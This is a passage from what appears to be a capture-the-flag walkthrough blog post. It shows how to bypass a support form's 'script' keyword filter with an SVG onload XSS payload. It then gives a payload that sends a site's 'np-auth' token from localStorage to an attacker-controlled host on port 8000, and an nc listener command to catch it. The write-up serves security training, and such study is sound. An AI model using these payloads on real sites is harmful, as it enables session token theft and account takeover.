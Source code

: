 <a href="https://jhalon.github.io/images/shh73.png"><img src="https://jhalon.github.io/images/shh73.png"></a>

We can see that there in fact is some filtering being done in the message portion of the service request. Technically the script is filtering anything that contains the word "__script__" in it, both lowercase and uppercase. At the same time, the line above it makes sure that the line ends with a period.

So let's go ahead and click on the "__Support__" link on the login page. We should be presented with a prompt about login issues. Let's quickly fill out the form with Alabaster's infomration and a test message, like so...

<a href="https://jhalon.github.io/images/shh74.png"><img src="https://jhalon.github.io/images/shh74.png"></a>

Once done, let's submit that and we will see our Password Reset Request.

<a href="https://jhalon.github.io/images/shh75.png"><img src="https://jhalon.github.io/images/shh75.png"></a>

Alright, so that works fine. Let's go back to the form we sumbitted and try to insert some JavaScript to create a XSS Attack. I suggest you read up on some of the [XSS Bypasses](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet) which will greatly help you bypass the filtering on this page.

From the __custom.js__ code, we know that we can't use the word "__script__" in our XSS, and the JavaScript code has to be before the period.

So an easy way to bypass these restrictions is by using the [SVG (Scalable Vector Graphics) onload](https://www.w3.org/TR/SVG/script.html#OnLoadEventAttribute) atrribute, and simply inject it into the middle of our message.

So let's create a simple XSS Alert to test. We can inject the follow JavaScript to create an alert box with the words "XSS".

`<svg/onload=alert('XSS')>`

So our test form should like like so...

<a href="https://jhalon.github.io/images/shh76.png"><img src="https://jhalon.github.io/images/shh76.png"></a>

Once done, let's submit it and we should get our alert box with the words "XSS".

<a href="https://jhalon.github.io/images/shh77.png"><img src="https://jhalon.github.io/images/shh77.png"></a>

Perfect! We got a working XSS Attack. So all we habe to do now is access the __np-auth__ token and have it sent to our AWS EC2 Instance.

We can use the following JavaScript code to axxomplish that. Just remeber to replace "__[IP]__" with your own AWS EC2 IP.

`<svg/onload=document.location="http://[IP]:8000/?c="+localStorage.getItem("np-auth")>`

So our form should look like so...

<a href="https://jhalon.github.io/images/shh78.png"><img src="https://jhalon.github.io/images/shh78.png"></a>

Before we send that out, let's make sure we have a listener running on our AWS EC2 Instance.

```console
ubuntu@ip-172-31-24-12:~$ nc -nvlp 8000
Listening on [0.0.0.0] (family 0, port 8000)
```
